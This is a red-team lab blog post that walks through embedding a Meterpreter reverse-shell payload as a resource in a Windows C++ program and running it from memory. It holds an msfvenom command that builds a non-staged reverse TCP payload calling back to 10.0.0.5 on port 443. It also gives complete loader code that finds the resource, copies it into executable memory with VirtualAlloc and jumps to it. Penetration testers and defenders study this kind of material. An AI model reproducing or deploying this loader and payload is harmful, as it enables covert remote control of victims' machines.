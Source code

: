 ```yaml
---
layout: post
title: "loading and executing shellcode from portable executable resources"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


# Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this (just a snippet):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-33-31.png>)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/\_RastaMouse) tweet:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 13-13-14.png>)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-37-31.png>)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-42-31.png>)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call (shown later in the code):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-43-59.png>)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-45-49.png>)

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-07-17.png>)

If you compile your program now and inspect it with resource hacker, you can now see the shellcode you have just embedded as a PE resource:

![](<../../.gitbook/assets/Screenshot from 2019-04-22 17-35-35.png>)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:

![](<../../.gitbook/assets/Peek 2019-04-21 12-30.gif>)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" %}
@spotheplanet
